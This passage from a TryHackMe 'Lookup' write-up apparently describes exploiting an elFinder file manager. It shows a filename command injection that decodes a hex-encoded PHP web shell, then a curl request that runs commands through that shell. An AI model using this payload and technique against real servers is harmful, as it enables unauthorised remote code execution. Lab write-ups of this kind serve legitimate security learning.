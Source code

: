 ![Desktop View](/assets/img/2025-06-27-TryHackMe-Lookup/photo2.webp){: width="525" height="537" }

My first instinct is to check the software version for any known vulnerabilities. A quick search leads me to [this exploit on Exploit-DB](https://www.exploit-db.com/exploits/46481).

The exploit is written in Python 2. Since Python 2 is ancient and can be a pain to get running, I decided to analyze the script and perform the steps manually. It's better practice anyway! The exploit works in a few clever steps:

1.  Upload a regular JPEG file.
2.  Rename the file to a specially crafted name. This command decodes a hex string into a PHP web shell and names the file `shell.php`... but keeps a `.jpg` extension to fool the server.
    ```bash
    $(echo 3c3f7068702073797374656d28245f4745545b2263225d293b203f3e0a | xxd -r -p > shell.php).jpg
    ```
    The hex decodes to: `<?php system($_GET["c"]); ?>`
3.  Use the file manager's "rotate image" feature and click "Apply". This triggers a bug where the server re-processes the file, stripping the `.jpg` extension and leaving us with `shell.php`.
4.  You'll get an error, but that's expected. The magic has already happened.

Now, we can access our shell and execute commands via the `c` parameter in the URL.

```bash
❯ curl -s 'http://files.lookup.thm/elFinder/php/shell.php?c=id'
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
